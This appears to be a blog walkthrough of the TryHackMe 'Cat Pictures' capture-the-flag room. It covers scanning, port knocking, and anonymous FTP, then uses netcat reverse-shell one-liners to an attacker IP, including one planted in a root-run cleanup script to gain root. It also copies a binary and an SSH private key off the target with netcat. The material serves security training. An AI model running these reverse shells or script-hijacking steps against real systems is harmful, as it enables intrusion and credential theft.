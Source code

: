 ```yaml
---
layout: post
title: "Cat Pictures"
date: 2022-10-20
categories: [Tryhackme, Easy-THM]
tags: [rustscan, phpBB, port-knocking, ftp, reverse-shell, id_rsa]
image: ../../assets/img/posts/catpictures.png 

---
```


## Description

I made a forum where you can post cute cat pictures!

|**Room**|[Cat Pictures](https://tryhackme.com/room/catpictures)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[gamercat](https://tryhackme.com/p/gamercat)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.88.63 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/187354361-be5629aa-e728-42d0-9044-aa3941f9681e.png)

Now, that we know about open ports, we can scan them in detail with nmap,

```bash
nmap -sC -sV -p22,8080 10.10.88.63
```

![image](https://user-images.githubusercontent.com/67465230/187354386-b84e964a-22af-46c9-a1cc-cf39bf95a87f.png)

Result shows that port 22 is running ssh service, port 8080 is running apache webserver.

Let's visit http://10.10.88.63,

![image](https://user-images.githubusercontent.com/67465230/187354539-5b090893-58fc-44b4-8e86-4819e42d2faf.png)

we got a webserver running phpBB software. 

Playing around with the website and I found something useful. A user comment, with a hint of _knock_,

![image](https://user-images.githubusercontent.com/67465230/187354574-4e837f83-233d-4810-9817-181dc3c649d7.png)

This _knock_ can be meaning of Port Knocking, I guess. 

So after searching about Port Knocking, a suitable explanation I found is, "_port knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of pre-specified closed ports_". Since, there are some numbers given to us, so we can use a Port knocking script - [knock](https://github.com/grongor/knock).

```bash
./knock 10.10.175.30 1111 2222 3333 4444
```

Note: Running this script won't return anything but we have to scan the ports again so quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.202.14 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/187354614-2602543e-a48d-4cbc-a3a5-f62e31db87b9.png)

Now, we have some new ports open, let's scan them in detail with nmap,

```bash
nmap -sC -sV -p21,22,4420,8080 10.10.202.14
```

![image](https://user-images.githubusercontent.com/67465230/187354666-e4129270-02f3-41a1-b670-080497f66b15.png)
![image](https://user-images.githubusercontent.com/67465230/187354703-7453c3c9-1496-41c5-a8f8-f1b7c6ecdf1e.png)

Result scan shows that new port 21 is running ftp service with anonymous login, port 4420 is running a kind of server.

Enumerating FTP service first with logging anonymously,

```bash
ftp 10.10.202.14
```

![image](https://user-images.githubusercontent.com/67465230/187354732-4f0a0fd6-f640-41ff-8795-495075cec619.png)

Enumerating directory,

![image](https://user-images.githubusercontent.com/67465230/187354766-116378f5-282c-4a30-81c2-fdb15f72e367.png)

there is a file named note.txt. 

Downloading the file on our system,

```bash
get note.txt
```

This file is successfully downloaded on our system.

Now, reading the content of the file,

![image](https://user-images.githubusercontent.com/67465230/187355039-93996cba-8f50-42c1-963d-b6d57798828c.png)

there is a password for the port 4420 (what we just found) by the user.

Let's login to that port,

```bash
nc 10.10.202.14 4420
```

![image](https://user-images.githubusercontent.com/67465230/187355073-bde74a42-9066-4083-98b6-eba1d729f01b.png)

when we try to access the port 4420, we are prompted with login credentials, so we have to login using the password we just get from catlover user.

Enumerating directory, this is a file structure of linux systems,

![image](https://user-images.githubusercontent.com/67465230/187355109-03501a71-29e6-414b-83d5-24fff58a347e.png)

Let's move into **home** directory to see if there is something interesting,

![image](https://user-images.githubusercontent.com/67465230/187355147-b9083c71-e488-49f4-974e-5cc6d1546c6e.png)

there is a runme binary.

I can't run this binary on the current shell itself,

![image](https://user-images.githubusercontent.com/67465230/187355432-43b6d0a4-ba0f-4bfd-90e7-d4f14f74616b.png)

we just need the regular shell to execute this binary because this shell doesn't have much functionality.

Viewing what commands we have in order to construct a reverse shell,

![image](https://user-images.githubusercontent.com/67465230/187355469-53174484-f709-4067-825c-837c9dbeed01.png)

we have all the basic commands using which we can construct the netcat reverse shell.

Now, start a netcat listener using `nc -nvlp 4444` and execute the following one-liner script into victim machine,

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.9.0.197 4444 >/tmp/f
```

![image](https://user-images.githubusercontent.com/67465230/187355512-8d16287a-2b04-4cf7-bd15-8c9485a19716.png)

we got the shell right of the bat. 

Now, running the binary `./runme`, 

![image](https://user-images.githubusercontent.com/67465230/187355551-9f42d162-6d02-4d73-8142-12795269a023.png)

it prompted for password and we provide the password but we got "Access Denied" message. 

Since, it is not worth to execute this binary of the shell itself, let's download the binary on our system using netcat,

```bash
nc -nlvp 9999 > runme #(victim)
nc -N 10.9.0.197 9999 < /home/catlover/runme #(attacker)
```

Now, that our binary has been downloaded on our system, we can start analyzing the file, 

```bash
strings runme
```

![image](https://user-images.githubusercontent.com/67465230/187355624-c99da0c2-760c-4ebb-9914-c20bdf60362f.png)

after scrolling down a bit, I can see the password. 

Now, we can run the binary again (on victim machine) and it will prompt for the password,

![image](https://user-images.githubusercontent.com/67465230/187355659-10c38a95-72c7-4c94-a947-8203bf06a85b.png)

After providing the password, application says, SSH key transfer queued.

Enumerating **/home/catlover** directory,

![image](https://user-images.githubusercontent.com/67465230/187355735-990d3e92-32cb-47d9-866f-036c5d11cfab.png)

we got an id_rsa key.

Let's download this key using **netcat** again,

```bash
nc -nlvp 9999 > id_rsa #(victim)
nc -N 10.9.0.197 9999 < /home/catlover/id_rsa #(attacker)
```

Now, we need to give this key certain permissions and then we can login using catlover user with id_rsa key,

```bash
chmod 600 id_rsa
ssh -i id_rsa catlover@10.10.202.14
```

![image](https://user-images.githubusercontent.com/67465230/187355819-292818b8-e248-4988-bcfe-501f3b083241.png)

Enumerating directory, we got the flag,

![image](https://user-images.githubusercontent.com/67465230/187355859-2dca330d-b989-4c78-94b0-b8f779aa2ff6.png)

Again, enumerating /opt directory,

![image](https://user-images.githubusercontent.com/67465230/187355896-44975432-415e-4c0d-95f0-b1b05d1c03a8.png)

we got a bash script of which the owner is root and will be run by root.

Taking a look at what script does, 

![image](https://user-images.githubusercontent.com/67465230/187355922-cddb1c63-3a60-4c44-bc09-23edd3571182.png)

this script is deleting everything from /tmp directory. 

Now, start the netcat listener using `nc -nvlp 6666` and we can put the one-liner netcat reverse shell in this script,

```bash
cat > clean.sh

#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.197 6666 >/tmp/f
```

![image](https://user-images.githubusercontent.com/67465230/187356027-d12565a0-de7a-4c27-809b-853f41e54e37.png)

we got the root shell.
